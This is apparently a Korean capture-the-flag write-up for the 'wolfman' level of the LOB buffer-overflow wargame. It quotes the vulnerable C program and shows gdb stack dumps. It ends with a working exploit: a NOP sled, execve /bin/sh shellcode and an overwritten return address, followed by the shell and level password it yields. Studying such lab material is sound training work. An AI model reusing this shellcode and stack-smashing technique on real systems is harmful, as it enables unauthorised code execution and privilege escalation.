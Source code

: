 ============================================================================================================
[redhat-lob] wolfman
============================================================================================================



.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1]"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="argv[1] address"];
    }


|

Source Code
============================================================================================================

lob 문제의 경우 소스코드가 공개되어 있으며, 소스코드는 다음과 같다.

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

    // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }

|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.
사이즈가 40바이트인 char 형 변수 배열 buffer가 선언되어 있는데, argv[1][47]=="\\bf" 조건을 만족하면 오버플로우가 발생한다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) 
    SFP     (4byte)
    RET     (4byte) <- strcpy overflow
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

Buffer Overflow
============================================================================================================

strcpy에서 argv[1] 인자 값을 통해 buffer 변수에 입력될 때, argv[1][47]=="\\bf" 조건을 만족하고 값이 버퍼보다 클 경우 오버플로우가 발생된다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행.

.. code-block:: console

    $ ./wolfman `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./wolfman `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

기존 문제들의 경우 환경 변수에 쉘코드를 삽입하여 해당 영역으로 RET를 할 수 있었으나, 해당 문제는 environ을 초기화하여 환경 변수 사용이 불가능하다.

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/orc/wolfman1 `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffae8       -1073743128

    (gdb) i reg $ebp
    ebp            0xbffffb08       -1073743096

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffae8:     0xbffffb08      0x400309cb      0x00000002      0xbffffb34
    0xbffffaf8:     0xbffffb40      0x40013868      0x00000002      0x08048450
    0xbffffb08:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb18:     0xbffffb34      0x08048390      0x0804861c      0x4000ae60
    0xbffffb28:     0xbffffb2c      0x40013e90      0x00000002      0xbffffc2e
    0xbffffb38:     0xbffffc43      0x00000000      0xbffffc74      0xbffffc96
    0xbffffb48:     0xbffffca0      0xbffffcae      0xbffffccd      0xbffffcd9
    0xbffffb58:     0xbffffcf2      0xbffffd0e      0xbffffd2d      0xbffffd38
    0xbffffb68:     0xbffffd46      0xbffffd88      0xbffffd97      0xbffffdac
    0xbffffb78:     0xbffffdbc      0xbffffdc5      0xbffffde3      0xbffffdee
    0xbffffb88:     0xbffffdff      0xbffffe0d      0xbffffe1c      0xbffffe24
    0xbffffb98:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffba8:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffbb8:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffbc8:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffbd8:     0x000001f8      0x0000000c      0x000001f8      0x0000000d
    0xbffffbe8:     0x000001f8      0x0000000e      0x000001f8      0x00000010
    0xbffffbf8:     0x0fabfbff      0x0000000f      0xbffffc29      0x00000000
    0xbffffc08:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc18:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc28:     0x38366900      0x682f0036      0x2f656d6f      0x2f63726f
    0xbffffc38:     0x6f772f2e      0x616d666c      0x6100336e      0x61616161
                                                      ^               ^
    0xbffffc48:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^ argv[1] = 0xbffffc53
    0xbffffc58:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc68:     0x61616161      0x61616161      0x00bf6161      0x5353454c
    ==========================================================================

|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode
    SFP     (4byte)  <- shellcode
    RET     (4byte)  <- argv[1] address
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1] 주소로 변경하여 해당 쉘코드가 실행되도록 한다. buffer의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./wolfman `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x43\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀L▒▒▒
    Segmentation fault

    $ ./wolfman `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x53\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀S▒▒▒

    bash$ whoami
    wolfman
    bash$ my-pass
    euid = 505
    love eyuna








